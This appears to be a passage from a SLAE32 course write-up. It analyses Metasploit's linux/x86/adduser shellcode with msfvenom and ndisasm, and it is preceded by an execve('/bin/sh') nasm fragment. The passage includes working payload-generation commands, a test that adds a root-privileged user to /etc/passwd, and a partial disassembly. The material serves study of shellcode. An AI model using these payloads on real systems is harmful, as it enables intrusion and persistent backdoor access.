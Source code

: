 ```nasm
push edx              ; edx = 0
push dword 0x68732f6e ; //bin/sh
push dword 0x69622f2f ; [...]
mov ebx,esp           ; const char *filename -> /bin/sh
push edx              ;
push ebx              ;
mov ecx,esp           ; char *const argv[] -> /bin/sh
mov al,0xb            ; sys_execve
int 0x80
```

# Shellcode analysis #3: linux/x86/adduser
---------------------------------------

The `linux/x86/adduser` shellcode adds a new user to `/etc/passwd` with an arbitrary username and password. The password is encoded in traditional descrypt format directly in the file instead of `/etc/shadow`.

Creating the shellcode
```
slemire@slae:~/slae32/assignment5/3_adduser$ msfvenom -p linux/x86/adduser -f c -o adduser_shellcode USER=slae PASS=slae
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 91 bytes
Final size of c file: 409 bytes
Saved as: adduser_shellcode
```

Verifying that the shellcode works by adding a user `slae` with password `slae`
```
slemire@slae:~/slae32/assignment5/3_adduser$ gcc -z execstack -o shellcode shellcode.c
slemire@slae:~/slae32/assignment5/3_adduser$ sudo ./shellcode
[sudo] password for slemire: 
Size: 92 bytes.
slemire@slae:~/slae32/assignment5/3_adduser$ grep slae /etc/passwd
slae:AzH43ypX/zepc:0:0::/:/bin/sh
```

`ndisasm` is used to dissassemble the shellcode:
```
slemire@slae:~/slae32/assignment5/3_adduser$ msfvenom -p linux/x86/adduser USER=slae PASS=slae | ndisasm -b32 - 
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 91 bytes

00000000  31C9              xor ecx,ecx
00000002  89CB              mov ebx,ecx
00000004  6A46              push byte +0x46
00000006  58                pop eax
00000007  CD80              int 0x80
00000009  6A05              push byte +0x5
0000000B  58                pop eax
0000000C  31C9              xor ecx,ecx
0000000E  51                push ecx
0000000F  6873737764        push dword 0x64777373
00000014  682F2F7061        push dword 0x61702f2f
00000019  682F657463        push dword 0x6374652f
0000001E  89E3              mov ebx,esp
00000020  41                inc ecx
00000021  B504              mov ch,0x4
```